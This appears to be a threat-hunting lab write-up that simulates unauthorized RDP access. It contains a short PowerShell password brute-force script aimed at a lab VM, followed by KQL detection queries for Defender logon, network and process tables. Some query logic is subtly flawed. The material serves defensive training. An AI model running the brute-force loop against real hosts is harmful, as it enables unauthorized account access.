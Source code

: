 # Threat Event (Unauthorized RDP Access)
**Unauthorized Remote Desktop Protocol (RDP) Access**

## Steps the "Bad Actor" Took to Create Logs and IoCs:
1. **Reconnaissance**: The bad actor scans for open RDP ports (TCP 3389) on the target network.
   - Utilizes Nmap to find exposed services.
2. **Brute Force**: The bad actor attempts to authenticate using brute force.
   - Use a PowerShell script to simulate a BruteForce attempt.
``` $username = "Administrator"  # Change to a valid username
$passwords = @("Password123!", "P@ssw0rd!", "Admin123", "123456")  # List of passwords to try
$victimIP = "10.0.0.26"  # Replace with the private IP of `thscenariovm`

foreach ($password in $passwords) {
    try {
        $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
        $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
        Test-WSMan -ComputerName $victimIP -Credential $credential -ErrorAction Stop
        Write-Host "Login successful with password: $password"
        break
    } catch {
        Write-Host "Login failed with password: $password"
    }
}
```
3. **Successful Login**: The attacker successfully logs into the machine over RDP.
   - Logs show the source IP address used for RDP access.
4. **Command Execution**: The attacker executes commands or malicious scripts once logged in (e.g., downloading malware, lateral movement).

---

## Tables Used to Detect IoCs:

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceLogonEvents                                                            |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicelogonevents-table |
| **Purpose**| Used to detect successful RDP logins, including login source IP and username. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents                                                           |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table |
| **Purpose**| Used to detect network activity over port 3389 and connections from suspicious IP addresses. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents                                                           |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose**| Used to detect RDP session creation or any commands executed remotely. |

---

## Related Queries:
```kql
// Detecting RDP login attempts
DeviceLogonEvents
| where DeviceName == "thscenariovm"
| where ActionType in ("LogonFailed", "LogonSuccess")  // Focus on logon attempts
| project Timestamp, DeviceName, AccountName, LogonType, ActionType, RemoteIP

// Detect RDP traffic on port 3389 from suspicious IPs
DeviceNetworkEvents
| where DeviceName == "thscenariovm"
| project Timestamp, DeviceName, RemoteIP, RemotePort, InitiatingProcessFileName

// Detect suspicious processes spawned after RDP login
DeviceProcessEvents
| where ProcessCommandLine contains "cmd.exe" or "powershell.exe"
| where InitiatingProcessFileName == "mstsc.exe" // mstsc.exe is the RDP client
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessFileName
```
---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47/
- **Date**: January 24, 2024

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `January 24, 2024`  | `James Harrington`   
